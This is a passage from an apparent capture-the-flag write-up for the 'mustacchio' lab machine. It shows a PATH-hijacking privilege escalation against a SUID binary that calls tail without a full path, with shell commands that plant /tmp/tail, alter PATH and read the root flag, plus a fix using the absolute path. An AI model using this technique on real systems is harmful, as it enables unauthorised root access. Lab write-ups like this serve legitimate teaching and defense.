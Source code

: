 ```shell
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

The program is using the tail command. If we add /tmp to the $PATH and we create a file /tmp/tail that starts a shell, the shell will be started by live_log who is a SUID file so we will become root.

# Prevent this attack ?

It is very simple to prevent this attack, instead of using "tail", use "/usr/bin/tail". if you write the entire path, even if someone change the $PATH, /usr/bin/tail will always be launched.

# Let's do it.

```shell
barry@mustacchio:/home/joe$ echo "/bin/bash" > /tmp/tail
barry@mustacchio:/home/joe$ chmod +x /tmp/tail
barry@mustacchio:/home/joe$ /tmp/tail
barry@mustacchio:/home/joe$ PATH=/tmp:$PATH
```

Just launch live_log now !

```shell
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# cat /root/root.txt
```

And the magic happens ! Thanks for reading !